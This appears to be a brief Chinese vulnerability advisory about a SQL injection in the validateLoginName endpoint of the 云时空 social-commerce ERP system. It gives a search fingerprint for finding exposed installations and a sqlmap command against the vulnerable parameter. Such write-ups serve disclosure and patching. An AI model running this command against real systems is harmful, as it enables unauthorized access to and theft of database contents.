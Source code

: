 # 云时空 社会化商业ERP系统 validateLoginName SQL注入漏洞

## 漏洞描述

云时空 社会化商业ERP系统存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
云时空 社会化商业ERP系统
```

## 网络测绘

```
title="云时空社会化商业ERP"
```

## 漏洞复现

登录页面

![image-20220525102459840](./images/202205251026873.png)

使用SQLmap验证漏洞

```
sqlmap -u "http://xxx.xxx.xxx.xxx/sys/user/validateLoginName?loginName=admin"
```

![image-20220525103355733](./images/202205251033940.png)